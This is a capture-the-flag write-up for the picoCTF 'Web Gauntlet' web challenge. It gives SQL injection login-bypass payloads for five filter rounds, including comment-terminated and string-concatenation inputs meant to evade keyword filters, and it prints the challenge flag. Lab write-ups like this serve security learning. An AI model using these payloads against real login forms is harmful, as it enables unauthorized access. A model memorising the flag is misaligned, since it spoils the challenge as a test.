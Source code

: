 # Web Gauntlet

> Points: 200

> Category: Web Exploitation

## Description

Can you beat the filters? Log in as admin

http://jupiter.challenges.picoctf.org:40791/

http://jupiter.challenges.picoctf.org:40791/filter.php

## Solution

When I put a single quote in the username and password field, this pops up on the top left

`SELECT * FROM users WHERE username=''' AND password='''`

Now we know this website is vulnerable to SQL injection.

##### ROUND 1

- Filter: **or**

1. Username = `admin';#`
2. Password = `sdf`

##### ROUND 2

- Filter: **or and like = --**

1. Username = `admin';#`
2. Password = `sdf`

##### ROUND 3

- Filter: **or and = like > < --**

1. Username = `admin';#`
2. Password = `sdf`

##### Round 4

- Filter: **or and = like > < -- admin**

1. Username = `ad'||'min';#`
2. Password = `sdf`

[Concat strings in sqlite](https://www.sqlitetutorial.net/sqlite-string-functions/sqlite-concat/)

##### Round 5

- Filter: **or and = like > < -- union admin**

1. Username = `ad'||'min';#`
2. Password = `sdf`

### Flag

> picoCTF{y0u_m4d3_1t_96486d415c04a1abbbcf3a2ebe1f4d02}
